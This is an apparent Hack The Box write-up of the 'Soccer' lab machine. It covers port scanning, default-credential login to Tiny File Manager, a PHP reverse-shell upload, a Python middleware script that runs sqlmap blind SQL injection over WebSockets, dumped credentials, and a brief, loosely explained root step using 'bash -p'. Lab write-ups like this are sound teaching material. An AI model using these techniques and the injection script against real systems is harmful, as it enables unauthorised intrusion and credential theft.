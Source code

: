 # Initial scanning
First I ran an nmap scan to check for open ports and available services on this machine
```
karim@alpacino:~/Desktop/htb$ nmap -sC -sV 10.10.11.194
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-19 20:05 EET
Nmap scan report for 10.10.11.194
Host is up (0.068s latency).
Not shown: 978 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp    open     http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
```
so there are three ports open which are 22 for ssh and 9091 for xmltec-xmlmail service which will be usefull in the future and xmltec-xmlmail80 for http and its redircting me to soccer.htb so I added the ip in my **/etc/hosts** file to access the website
![image1](img/1.png)

and I was to able to access the website. so I ran a gobsuter scan to find hidden directories  in the website
```
karim@alpacino:~/Desktop/htb$ sudo gobuster dir -u http://soccer.htb -w /opt/wordllists/dirbuster/directory-list-2.3-medium.txt 
[sudo] password for karim: 
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/wordllists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/01/19 20:33:16 Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
```
gobuster found a directory called tiny so I opened a login page appeared to me
![image1](soccer/img/2.png)
After a little research I found that tiny is a file manger so I viewed the source code to find if there is a version number and I found it and it was "**2.4.3**"
![image1](soccer/img/3.png)
so I searched online for the default credentials of this version and I found "**admin:admin@123**" so I tried it and worked and I got logged in as admin user
# Initial Foothold
I was prompted to a file managment system with the  ability to upload file
![image1](soccer/img/4.png)
so I tried to upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) but it was only uploaded succefully in the **/var/www/html/tiny/uploads** directory and I obtained a reverse shell
![image1](soccer/img/5.png)]
I tried to cat the user.txt file in the /home/player directory to obtain the flag but I didn't have the permission to read the file
```
www-data@soccer:/home/player$ cat user.txt
cat: user.txt: Permission denied
```
so I searched in the default folder for something odd and I found **/etc/nginx** which inticades that there is an nginx server running so I cded to /etc/nginx/sites-enabled and I found **soc-player.htb** file and I found that there is another server running with another subdomain
```
www-data@soccer:/etc/nginx/sites-enabled$ cat soc-player.htb 
server {
	listen 80;
	listen [::]:80;

	server_name soc-player.soccer.htb;

	root /root/app/views;

	location / {
		proxy_pass http://localhost:3000;
		proxy_http_version 1.1;
		proxy_set_header Upgrade $http_upgrade;
		proxy_set_header Connection 'upgrade';
		proxy_set_header Host $host;
		proxy_cache_bypass $http_upgrade;
	}

}
```
so I added the subdomain to my **/etc/hosts** file and I opened it in my browser
![image1](soccer/img/6.png)
And I found that it has a signup functionality and a functionality to book tickets to matches so I created an account and went to the tickets booking page
![image1](soccer/img/7.png)
and as you can see I tried sql injection and it appeared that this form is vurnable to blind sql injection so I fired up burp suite to analyze the application and to know what technology it is using.
![image1](soccer/img/10.png)
So I discovered that it run websocket and unfortunatly You can't use sqlmap map with websockets directly so searches online and found [this article](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) that explains how to use sqlmap with websockets.
so I used the script in the article and modified it to be compatable with our machine and here is the modified script
```
from http.server import SimpleHTTPRequestHandler  
from socketserver import TCPServer  
from urllib.parse import unquote, urlparse  
from websocket import create_connection  
  
ws_server = "ws://soc-player.soccer.htb:9091"  
  
def send_ws(payload):  
 ws = create_connection(ws_server)  
 # If the server returns a response on connect, use below line   
 #resp = ws.recv() # If server returns something like a token on connect you can find and extract from here  
   
 # For our case, format the payload in JSON  
 message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure  
 data = '{"id":"%s"}' % message  
  
 ws.send(data)  
 resp = ws.recv()  
 ws.close()  
  
 if resp:  
  return resp  
 else:  
  return ''  
  
def middleware_server(host_port,content_type="text/plain"):  
  
 class CustomHandler(SimpleHTTPRequestHandler):  
  def do_GET(self) -> None:  
   self.send_response(200)  
   try:  
    payload = urlparse(self.path).query.split('=',1)[1]  
   except IndexError:  
    payload = False  
      
   if payload:  
    content = send_ws(payload)  
   else:  
    content = 'No parameters specified!'  
  
   self.send_header("Content-type", content_type)  
   self.end_headers()  
   self.wfile.write(content.encode())  
   return  
  
 class _TCPServer(TCPServer):  
  allow_reuse_address = True  
  
 httpd = _TCPServer(host_port, CustomHandler)  
 httpd.serve_forever()  
  
  
print("[+] Starting MiddleWare Server")  
print("[+] Send payloads in http://localhost:8081/?id=*")  
  
try:  
 middleware_server(('0.0.0.0',8081))  
except KeyboardInterrupt:  
 pass
```
and I ran sqlmap and the following credentials appeared
```
+------+-------------------+----------+----------------------+
| id   | email             | username | password             |
+------+-------------------+----------+----------------------+
| 1324 | player@player.htb | player   | PlayerOftheMatch2022 |
+------+-------------------+----------+----------------------+
```
so I logged in via ssh to the machine as player user and I was able to read the user flag
# Privilage Escalation
so I uploaded [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) script and ran it on the machine
![image1](soccer/img/11.png)
so I ran the /usr/bin/bash script with the following command
```
bash-5.0$ /usr/bin/bash -p
```
so that's how I was able to be the root user
![image1](soccer/img/12.png)
# conclusion
In the end of this writeup I would like to share my thoughts about this machine.
I think this machine is a good one and if you solve it you will learn multiple things like automating websocket sql injection and I think that the creator of this machine should be respected.
